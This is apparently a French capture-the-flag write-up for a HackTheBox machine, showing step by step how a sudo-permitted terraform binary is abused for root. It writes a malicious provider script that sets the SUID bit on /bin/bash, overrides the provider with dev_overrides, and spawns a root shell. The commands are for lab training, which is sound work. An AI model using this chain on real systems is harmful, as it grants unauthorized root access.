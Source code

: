 1. Dans un premier temps identifier la source du provider (dans /opt/examples pour notre exemple)

```sh
cat /opt/examples/*.tf
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
...
```

2. Puis créer un provider script malveillant contenant notre payload et le rendre executable

```sh
echo '#!/bin/bash
chmod +s /bin/bash' > /tmp/exploit

chmod +x /tmp/exploit
```


3. Créer un fichier de configuration .rc afin d'override le provider_installation

```sh
echo 'provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/tmp"
  }
  direct {}
}' > /tmp/conf.rc
```

4. Exporter le fichier de configuration dans la variable d'environnement TF_CLI_CONFIG_FILE

```sh
export TF_CLI_CONFIG_FILE=/tmp/conf.rc
```

5. Executer la commande sudo. (Cela génère évidemment des erreurs)

```sh
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```

6. Escalade en root

```sh
/bin/bash -p
```